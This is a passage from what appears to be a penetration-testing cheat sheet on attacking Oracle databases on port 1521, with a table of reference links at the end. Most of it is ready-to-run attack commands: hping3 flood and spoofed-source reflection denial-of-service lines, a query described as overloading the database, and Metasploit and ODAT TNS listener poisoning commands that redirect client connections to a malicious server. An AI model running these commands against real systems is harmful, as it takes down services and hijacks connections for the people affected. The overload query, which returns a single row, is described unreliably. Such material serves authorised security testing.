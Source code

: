 ### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 1521 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 1521 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Overloading with Large Queries

*   **Tool:** \[\[SQL Plus]]

    ```sql
    SELECT * FROM large_table WHERE ROWNUM = 1 ORDER BY dbms_random.value;
    ```
* **Description:** Execute resource-intensive queries to overload the Oracle database, leading to degraded performance or downtime.

### Exploits

#### Oracle Listener Poison Attack

*   **Tool:** \[\[Metasploit]]

    ```bash
    msf > use auxiliary/admin/oracle/tnspoison
    ```

\


*   **Tool:** \[\[ODAT]]

    ```bash
    ./odat.py tnspoison -s <target_ip> -p 1521 --sid orcl --exploit
    ```
* **Description:** Exploits vulnerabilities in the Oracle Listener to redirect client connections to a malicious server.

## Resources

| **Website**                                        | **URL**                                                     |
| -------------------------------------------------- | ----------------------------------------------------------- |
| Oracle Database Net Services Administrator's Guide | https://docs.oracle.com/en/database/oracle/oracle-database/ |
| ODAT (Oracle Database Attacking Tool) GitHub       | https://github.com/quentinhardy/odat                        |
| Nmap Scripting Engine (NSE) Documentation          | https://nmap.org/book/nse.html                              |
| Metasploit Oracle Modules                          | https://www.rapid7.com/db/modules/                          |
| SQL Plus User's Guide                              | https://docs.oracle.com/en/database/oracle/oracle-database/ |
| Oracle Advanced Security Guide                     | https://docs.oracle.com/en/database/oracle/oracle-database/ |